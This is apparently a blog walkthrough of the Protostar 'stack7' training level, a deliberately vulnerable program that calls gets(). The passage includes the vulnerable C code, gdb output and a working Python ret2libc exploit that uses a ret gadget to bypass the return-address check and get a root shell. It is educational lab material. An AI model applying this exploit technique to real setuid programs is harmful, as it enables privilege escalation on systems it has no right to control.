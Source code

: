 ```yaml
---
title: Protostar Writeup - stack7
updated: 2018-10-14 16:30
---
```


## Protostar - stack7

Let's move on to the next level of Protostar. This is similar to the previous challenge.
Let's take a look at the code and see what differences are present.

```c

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
	char buffer[64];
	unsigned int ret;

	printf("input path please: "); fflush(stdout);

	gets(buffer);

	ret = __builtin_return_address(0);

	if((ret & 0xb0000000) == 0xb0000000) {
		printf("bzzzt (%p)\n", ret);
		_exit(1);
	}

	printf("got path %s\n", buffer);
	return strdup(buffer);
}

int main(int argc, char **argv)
{
	getpath();
}
```

So same stuff, but a different restriction on the return address... interesting. Let's take a look at what the address points to.

```sh
(gdb) break main
Breakpoint 1 at 0x804854b: file stack7/stack7.c, line 28.
(gdb) r
Starting program: /opt/protostar/bin/stack7 

Breakpoint 1, main (argc=1, argv=0xbffff864) at stack7/stack7.c:28
28      stack7/stack7.c: No such file or directory.
        in stack7/stack7.c
(gdb) info proc map
process 5409
cmdline = '/opt/protostar/bin/stack7'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack7'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack7
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack7
        0xb7e96000 0xb7e97000     0x1000          0        
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0        
        0xb7fe0000 0xb7fe2000     0x2000          0        
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
```

As we can see from the map above, we're restricted from returning to libc. This is apparent from the `0xb00000000` check in the C code.
So how can we counter this? After digging a bit, I came across ret2code. Basically you make use of addresses of the binary itself.
From the map above it's clear that we can do so. But what do we do? That is the question. From the previous write up we know that we can
fake a stack frame and gain a root shell. Can we do that here somehow?

It is possible only if we can evade the check. If we do evade the check we can then reuse our ret2libc attack. Makes sense.
One way could be to immediately return from the function to completely avoid the check. This seems like a viable strategy.
There are many such ROP chains(of instructions) which can be used to craft our exploits. These instructions are also known as
ROP gadgets(pretty cool eh?).

Here's what a standard calling convention looks like taken from [here](https://en.wikipedia.org/wiki/X86_calling_conventions#Caller_clean-up).:

```nasm
caller:
        ; make new call frame (some compilers may produce an 'enter' instruction instead)
        push    ebp       ; save old call frame
        mov     ebp, esp  ; initialize new call frame
        ; push call arguments, in reverse (some compilers may subtract the required space from the
        ; stack pointer, then write each argument directly, see below. The 'enter' instruction can also do something similar)
        ; sub esp, 12 ; 'enter' instruction could do this for us
        ; mov [ebp-4], 3 ; or mov [esp+8], 3
        ; mov [ebp-8], 2  ; or mov [esp+4], 2
        ; mov [ebp-12], 1  ; or mov [esp], 1
        push    3
        push    2
        push    1
        call    callee    ; call subroutine 'callee'
        add     eax, 5    ; modify subroutine result (eax is the return value of our callee,
                          ; so we don't have to move it into a local variable)
        ; restore old call frame (some compilers may produce a 'leave' instruction instead)
        ; add   esp, 12   ; remove arguments from frame, ebp - esp = 12.
                          ; compilers will usually produce the following instead, which is just as fast,
                          ; and, unlike the add instruction, also works for variable length arguments
                          ; and variable length arrays allocated on the stack.
        mov     esp, ebp  ; most calling conventions dictate ebp be callee-saved,
                          ; i.e. it's preserved after calling the callee.
                          ; it therefore still points to the start of our stack frame.
                          ; we do need to make sure callee doesn't modify (or restores) ebp, though,
                          ; so we need to make sure it uses a calling convention which does this
        pop     ebp       ; restore old call frame
        ret               ; return
```

The instructions we're particularly interested in are the `pop x` and `ret` at the end of the above section.
Using those two instructions we can exit from a fucntion. Thinking of it we don't even need the `pop x`.
This simplifies our task. If we did have to use `pop` to restore the previous stack frame(which is not required in this case).
That's why a `ret` is sufficient.

Let's get started, first let's find the IP offset. Using our trustworthy pattern...

```python
>>> cyclic_metasploit(128)
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa...0Ab1Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
```

```sh
(gdb) r
Starting program: /opt/protostar/bin/stack7 
input path please: Aa0Aa1Aa2Aa3...Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
got path Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7A...Ad6Ad7Ad8Ad9Ae0Ae1Ae

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

```python
>>> cyclic_metasploit_find(0x37634136)
80
```

So we know our padding is 80 bytes. Now lets get the address of ret from the binary...

```sh
$ objdump -D stack7 | grep ret
 8048383:       c3                      ret    
 8048494:       c3                      ret    
 ...
 80485f9:       c3                      ret    
 8048617:       c3                      ret    
```

Let's make use of the first address. Now we need the base address of libc which we have from the above proc map.
So that's at `0xb7e97000`. Now let's get the addresses of system and exit.

```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
```

Notice how the functions are at within the restricted addresses. But this doesn't matter since we're avoiding the check.
That's why our ret2libc attack works again. One final thing we require is the shell string, which we can get the same way we did last time.

```sh
$ strings -a -t x /lib/libc-2.11.2.so
 11f3bf /bin/sh
```

Keep in mind that this is the offset and not the location of the shell string, we'll have to add this offset to libc's address to get the actual
address. Using all this, let's craft our exploit.

```python
import struct

padding = 'A' * 80

ret_addr = struct.pack("I", 0x8048383)
libc_start_addr = 0xb7e97000
shell_string_offset = 0x11f3bf
shell_string_addr = struct.pack("I", libc_start_addr + shell_string_offset)
system_addr = struct.pack("I", 0xb7ecffb0)
exit_addr = struct.pack("I", 0xb7ec60c0)

def go():
    payload = padding
    payload += ret_addr
    payload += system_addr
    payload += exit_addr
    payload += shell_string_addr
    print payload

go()
```

A quick and diry exploit, nothing fancy. Let's run it...

```sh
$ (python /tmp/exploit7.py; cat) | ./stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
```

Easy peasy. Those are all of the stack exploits. If you've come so far, then good job, you now have basic understanding of why bufferoverflows are bad.
A word of caution...these techniques dont work anymore...at least not this easily. You have protections like DEP and ASLR which are put in place to prevent these kinds of attacks.

P.S.: If you like this blog please do feel free to share it with your friends :).

